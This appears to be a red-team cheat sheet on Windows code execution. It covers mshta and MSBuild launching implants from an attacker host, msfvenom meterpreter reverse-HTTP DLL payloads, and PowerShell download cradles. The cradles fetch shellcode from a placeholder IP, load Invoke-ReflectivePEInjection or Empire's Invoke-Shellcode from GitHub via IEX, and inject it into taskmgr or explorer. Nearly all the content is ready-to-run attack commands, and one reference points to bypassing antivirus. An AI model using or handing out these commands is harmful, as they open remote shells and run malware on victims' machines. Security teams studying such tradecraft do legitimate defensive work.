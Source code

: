 # Windows

## 01 - Code Execution

### 1.1 - HTA

```
C:\> mshta <drive_letter>:\absolute\path\to\implant.hta

C:\> mshta http[s]://<IP>/implant.hta
```

### 1.2 - MSBuild

Execute C# project implants.

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attacker_IP>\implant.csproj

C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attacker_IP>\implant.xml
```

## 02 - Powershell Scripts

### 1.1 - Reflective DLL Injection

#### 1.1.1 - Simple Reflective DLL Injection

```
$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=80 exitfunc=thread -f dll -o shellcode.dll

$ sudo python -m http.server 80
```

`$ cat download-cradle.ps1`

---

```powershell
Start-Process -WindowStyle hidden -FilePath taskmgr.exe

$bytes = ((New-Object Net.WebClient).DownloadData("http://<IP>/shellcode.dll"))

IEX((New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/charnim/Invoke-ReflectivePEInjection.ps1/main/Invoke-ReflectivePEInjection.ps1"))

$procid = (Get-Process -Name taskmgr).Id

Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

#### 1.1.2 - Reflective DLL Injection with encoded base64 shellcode DLL

TODO: Figure out the base64 encoding problem with DLL files

```
$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=80 EXITFUNC=thread -f dll -o shellcode.dll

$ pwsh

PS /home/user> $file = 'shellcode.bin'

PS /home/user> [byte[]] $raw_bytes = [IO.File]::ReadAllBytes($file)

PS /home/user> $encoded = [Convert]::ToBase64String($raw_bytes)

PS /home/user> [IO.File]::WriteAllBytes('shellcode-encodedb64.txt', $encoded)

PS /home/user> exit

$ sudo python -m http.server 80
```

`$ cat download-cradle.ps1`

---

```powershell
Start-Process -WindowStyle hidden -FilePath taskmgr.exe  
  
$bytes = ((New-Object Net.WebClient).DownloadData("http://<IP>/shellcode-encodedb64.txt"))  
  
$decoded = [Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($bytes))  
  
IEX((New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/charnim/Invoke-ReflectivePEInjection.ps1/main/Invoke-ReflectivePEInjection.ps1"))  
  
$procid = (Get-Process -Name taskmgr).Id  
  
Invoke-ReflectivePEInjection -PEBytes $decoded -ProcId $procid
```

### 1.2 - Invoke-Shellcode

```powershell
IEX((New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/main/empire/server/data/module_source/code_execution/Invoke-Shellcode.ps1"))

$procid = (Get-Process -Name explorer).Id

Invoke-Shellcode -ProcessId $procid -Shellcode @(<ps1_shellcode_format>)
```

---
## References

- [[DotNET Execution|Code Execution: MSBuild]]

- [charnim: Invoke-ReflectivePEInjection](https://github.com/charnim/Invoke-ReflectivePEInjection.ps1)

- [Red Team Notes: Code Execution](https://www.ired.team/offensive-security/code-execution)

- [Sevagas: Hacking around HTA files](https://blog.sevagas.com/?Hacking-around-HTA-files)

- [Adamn Chester (XPN) YouTube Video: Bypass AV with Invoke-ReflectivePEInjection](https://www.youtube.com/watch?v=byMBx4q-vYo)

- [monoxgas: sRDI](https://github.com/monoxgas/sRDI)